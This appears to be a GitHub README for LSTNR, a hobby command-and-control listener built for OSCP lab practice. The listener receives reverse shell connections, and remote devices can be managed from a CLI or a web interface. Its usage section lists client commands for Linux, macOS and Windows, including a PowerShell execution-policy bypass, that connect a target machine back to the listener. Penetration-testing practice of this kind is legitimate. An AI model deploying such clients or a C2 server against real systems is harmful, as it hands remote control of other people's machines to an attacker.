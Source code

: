 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

OR

Remote devices can be managed from the LSTNR webpage.

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE: CLI
1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

<img width="509" alt="Screenshot 2024-12-30 at 8 17 42 PM" src="https://github.com/user-attachments/assets/375e9059-e448-412c-8677-cac252d1da63" />

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `bash client.sh`
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`


# USAGE: Web C2 server 
1. Start the server
    - `python3 lstnr-web.py`

2. Open link in web browser
    - `firefox 127.0.0.1:8000`

<img width="1162" alt="Screenshot 2024-12-21 at 1 03 20 AM" src="https://github.com/user-attachments/assets/9145dc13-14d0-440c-9d00-9a60f547bbc5" />
